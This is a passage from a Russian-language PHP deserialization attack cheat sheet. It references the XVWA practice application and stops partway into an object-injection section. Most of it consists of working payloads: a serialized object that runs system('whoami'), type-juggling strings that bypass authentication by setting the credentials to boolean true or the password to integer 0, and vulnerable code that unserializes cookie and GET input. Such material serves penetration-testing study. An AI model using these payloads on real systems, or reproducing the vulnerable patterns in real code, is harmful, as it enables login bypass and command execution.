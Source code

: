 * Базовые сериализованные данные

```a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}```

* Выполнение команды

```string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"```

# Обход аутентификации

### Подмена типов

Уязвимый код:

```php
<?php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Полезная нагрузка:

a:2:{s:8:"username";b:1;s:8:"password";b:1;}

Поскольку true == "str" ​​— это true.

> В PHP 8 и более поздних версиях сравнение 0 == "Example string" оценивается как false, поскольку строки больше не преобразуются неявно в 0 во время сравнения. В результате этот эксплойт невозможен в этих версиях PHP.
>> Поведение при сравнении буквенно-цифровой строки, которая начинается с цифры, остается прежним в PHP 8. Таким образом, 5 == "5 чего-то" по-прежнему рассматривается как 5 == 5.

```
O:11:"credentials":2:{s:8:"username";s:8:"apushkin";s:8:"password";s:15:"4r1naR0d!onovna";} 
Можно изменить тип атрибута password с string на integer и присвоить ему значение 0. Тогда пароль окажется верным в любом случае, а модифицированные данные будут такими:
O:11:"credentials":2:{s:8:"username";s:8:"apushkin";s:8:"password";i:0;} 
```

# Внедрение объекта

Уязвимый код:

```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
